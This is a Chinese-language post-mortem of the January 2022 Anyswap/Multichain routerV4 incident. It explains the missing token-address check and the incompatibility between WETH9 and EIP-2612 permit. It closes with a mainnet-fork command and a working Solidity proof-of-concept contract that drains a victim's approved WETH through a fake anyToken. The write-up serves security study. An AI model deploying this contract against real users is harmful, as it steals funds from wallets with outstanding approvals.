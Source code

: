 ### 事件简述

Anyswap是一个去中心化的跨链交换协议。

于2020年7月开始运行。

2021年7月11日, AnySwap Router V3 受到黑客攻击并损失787万美元。

2021年12月16日, Anyswap宣布更名为Multichain。

2022年1月18日，Multichain于medium发布漏洞预警信息，文章中称发现一严重漏洞，影响6个跨链Token，呼吁代币拥有者尽快转移资产。

尽管Multichain声称已经修复了漏洞，但是在当天还是有攻击者成功窃取了总价值约1400万美金的加密资产。



### 漏洞原理简析

1. `routerV4`合约没有对用户传入的Token地址做合法性校验

2. `WETH9`并不兼容`routerV4`的部分逻辑设计

* 漏洞代码

```js
function anySwap_OutUnderlying_WithPermit(
    address from,
    address token,
    address to,
    uint amount,
    uint deadline,
    uint8 v,
    bytes32 r,
    bytes32 s,
    uint toChainID
) external {
    address _underlying = AnyswapV1ERC20(token).underlying();
    IERC20(_underlying).permit(from, address(this), amount, deadline, v, r, s);
    TransferHelper.safeTransferFrom(_underlying, from, token, amount);
    AnyswapV1ERC20(token).depositVault(amount, from);
    _anySwapOut(from, token, to, amount, toChainID);
}
```


#### EIP-2612

EIP-2612为ERC-20标准增加了一个新的方法：`permit`

它允许用户在链下签署授权的交易，生成任何人都可以使用并提交给区块链的签名。

该标准优化了传统ERC20Token对用户不友好的两步过程：

```
approve + transferFrom
```

简单来说：过去要approve后我们才能把代币转给别的合约。
但如果该代币支持了permit(例如DAI)，那我们就可以透过在链下用私钥签署产生一个签名，
使用这个签名，别人（其他EOA或者合约地址）就可以帮我们呼叫permit然后把代币转走。

* 然而`WETH9`并不支持`EIP-2612`协议, AnySwap在功能设计上没有考虑到规避这一点


### 攻击步骤分析

* 在正常使用逻辑中

用户调用`anySwapOutUnderlyingWithPermit`函数, 传入的token地址应为Anyswap官方部署的`anyERC20`地址, 在成功校验用户传入的签名后, 进行与之对应的`ERC20`转账操作.




事实上Anyswap并没有部署与`WETH9`对应的`anyWETH`合约, 于是攻击者自己部署了一个假的





这样攻击者就绕过了签名的校验, 把受害人的`WETH`转到了自己的账户

### 复现

* fork

```
npx ganache-cli  --fork https://eth-mainnet.alchemyapi.io/v2/your_api_key@14028473  -l 4294967295
```

* 部署攻击合约

```js

// SPDX-License-Identifier: UNLICENSED
pragma solidity >=0.7.0 <0.9.0;

interface AnyswapV4Router {

    function anySwapOutUnderlyingWithPermit(
        address from,
        address token,
        address to,
        uint256 amount,
        uint256 deadline,
        uint8 v,
        bytes32 r,
        bytes32 s,
        uint256 toChainID
    ) external;
    
}

interface WBNB {

    function approve(address guy, uint256 wad) external returns (bool);

    function withdraw(uint256 wad) external;

    function balanceOf(address) external view returns (uint256);

    function transfer(address dst, uint256 wad) external returns (bool);

}



contract poc{

    address AnyswapV4Router_Address = 0x6b7a87899490EcE95443e979cA9485CBE7E71522;

    address WBNB_Address = 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2;

    function attack(address innocent_user, uint256 amount) public{

        AnyswapV4Router(AnyswapV4Router_Address).anySwapOutUnderlyingWithPermit(innocent_user,address(this),msg.sender,amount,100000000000000000000,0,"0x","0x",56);

        WBNB(WBNB_Address).transfer(msg.sender, amount);

    }


    function burn(address from, uint256 amount) external returns (bool){
        return true;
    }

    function depositVault(uint amount, address to) external returns (uint){
        return 1;
    }


    function underlying() external view returns (address){
        return WBNB_Address;
    }

}


```


